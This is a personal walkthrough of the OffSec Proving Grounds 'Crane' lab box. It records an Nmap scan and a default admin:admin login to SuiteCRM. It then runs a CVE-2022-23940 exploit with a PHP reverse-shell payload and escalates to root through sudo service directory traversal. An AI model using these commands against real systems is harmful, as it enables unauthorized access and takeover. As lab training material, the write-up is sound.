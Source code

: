 ```yaml
---
Date: 2024-10-07
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.137.146
Writeup: https://medium.com/@halfcircassian/offsec-proving-grounds-crane-walkthrough-f867bc9d442e
---
```

# Crane
This was the most straight-forward box so far. While a walkthrough was referenced for some of the exploit syntax, the exploit itself had already been found and tested before hand, so catching the reverse shell was straightforward.

After initial access, it was clear `usr/sbin/service` could be used for privilege escalation. It took a bit of testing, but combining `www-data`'s sudo privileges with directory traversal led to `root` access

# Resolution summary
- Scanned with Nmap to find ports 22, 80, & 3306
- Navigated to `http://192.168.137.146:80` 
- Password guessed admin login, and identified SuiteCRM 7.12.3
- Found exploit for CVE-2022-23940, executed against target & achieved shell
- Checked sudo privileges and found `/usr/sbin/services`
- Used `sbin` & directory traversal to escalate to `root`
## Improved skills
- Finding/testing exploits
- Linux Privilege Escalation
## Used tools
- Nmap
- NetCat

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN crane.nmap 192.168.137.146 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache)
- Navigated to `http://192.168.137.146:80` & identified `SugarCRM`
![[Pasted image 20241007155353.png]]
- Password guessed `admin:admin` and accessed Admin Dashboard
![[Pasted image 20241007160513.png]]
- Navigated to "About" and confirmed `SuiteCRM v7.12.3` & `Suger v6.5.25 (Build 344)`
	- Potentially vulnerable to [`EBD-ID:51187`](https://www.exploit-db.com/exploits/51187) (requires credentials)
	- Potentially vulnerable to [CVE-2024-36412](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36412)
	- Potentially vulnerable to [CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)
![[Pasted image 20241007161814.png]]
- Inspected `robots.txt`
![[Pasted image 20241007155610.png]]
- Attempted to navigate to `/ical_server.php`
![[Pasted image 20241007155653.png]]
- Re-entered `admin:admin` and downloaded `ical_server.ics`
![[Pasted image 20241007160822.png]]
## Port 3306 - MYSQL
- Attempted to re-use `admin:admin` credentials
![[Pasted image 20241007161053.png]]

---
# Exploitation
- Identified exploit for [CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)
- Copied exploit, executed against target: 
`./exploit.py -h http://192.168.137.146/ -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.160\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"`
![[Pasted image 20241007163321.png]]
- Caught reverse shell with NetCat:
![[Pasted image 20241007163458.png]]
---
# Privilege Escalation
## Local Enumeration
- Upgraded to Full TTY and printed `local.txt`
![[Pasted image 20241007163641.png]]
- Checked `sudo -l`
![[Pasted image 20241007163902.png]]
## Privilege Escalation vector
- Identified `www-data` can run system services without password
- Attempted to abuse sudo with directory traversal to maintain privileges: `sudo /usr/sbin/service ../../../../../../../bin/bash`
![[Pasted image 20241007164937.png]]
- Navigated to `/root` and printed `proof.txt`
![[Pasted image 20241007165127.png]]
---
# Trophy & Loot
`local.txt` = `2847b6fff8e4463e6cfb2ecae2e0ec97`
`root.txt` = `698934849f240865f3ef3ec8aa705eac`